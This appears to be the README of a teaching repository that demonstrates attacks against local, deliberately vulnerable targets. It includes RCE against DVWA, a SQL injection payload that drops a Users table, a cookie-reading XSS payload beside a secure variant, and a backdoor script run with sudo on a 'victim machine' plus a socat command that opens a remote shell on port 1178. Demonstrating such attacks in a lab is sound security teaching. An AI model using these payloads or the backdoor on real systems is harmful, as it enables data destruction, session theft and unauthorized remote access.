 ## Quick Start Guide
1. `virtualenv -p python3 env`
2. `source env/bin/activate`
3. `pip install -r requirements.txt`

### RCE
1. `docker run --rm -it -p 8081:80 vulnerables/web-dvwa` and create db in web interface of DVWA.
2. `python rce/run.sh`

### SQL-INJECTION
1. `python sql-injection/run_vulnerable.py` and enter `"""2'); drop table Users; --"""`

### XSS
1. `php -S localhost:8024`
2. `/index.php?text=faketitle%20onmouseover=(function(){alert(document.cookie)})();`
3. Hover special text.
4. For secure `/index_secure.php?text=faketitle%20onmouseover=(function(){alert(document.cookie)})();`

### BACKDOOR
1. `sudo backdoor/backdoor.sh` on victim machine
2. `socat STDIO TCP4:<victim ip>:1178` on attacker machine
